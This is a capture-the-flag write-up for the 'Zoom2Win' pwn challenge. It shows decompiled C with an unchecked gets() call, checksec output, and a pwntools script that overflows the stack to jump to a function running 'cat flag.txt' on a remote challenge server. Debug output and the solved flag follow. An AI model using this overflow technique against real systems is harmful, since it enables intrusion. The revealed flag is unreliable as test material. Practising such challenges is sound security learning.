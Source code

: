 # Zoom2Win

## IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Let's not overcomplicate. Just zoom2win :)");
  return gets(v4, argv);
}

int flag()
{
  return system("cat flag.txt");
}
```

## Analysis

Let's checksec:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Fixed size buffer, `gets` call, no canary, no pie, we have a function that
prints the flag... couldn't be more easy.

Final script:

```py
from pwn import *

context.log_level = 'debug'
context.terminal = ["screen", "-dmS", "gdb"]

elf = ELF("./zoom2win")

r = remote("143.198.184.186", 5003)
r.clean()
r.sendline(b'A' * 40 + p64(elf.sym['main'] + 43) + p64(elf.sym['flag']))
r.clean()
r.interactive()
```

The reason we are jumping to `main + 43` before `flag` is because of `movaps` alignment, see the
writeup for `tweetybirb` for a more detailed explanation

```
➜  zoom2win python3 exploit.py
[*] '/home/toma/zoom2win/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 143.198.184.186 on port 5003: Done
[DEBUG] Received 0x2b bytes:
    b"Let's not overcomplicate. Just zoom2win :)\n"
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  dd 11 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  96 11 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000039
[DEBUG] Received 0x30 bytes:
    b'kqctf{did_you_zoom_the_basic_buffer_overflow_?}\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  
```

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`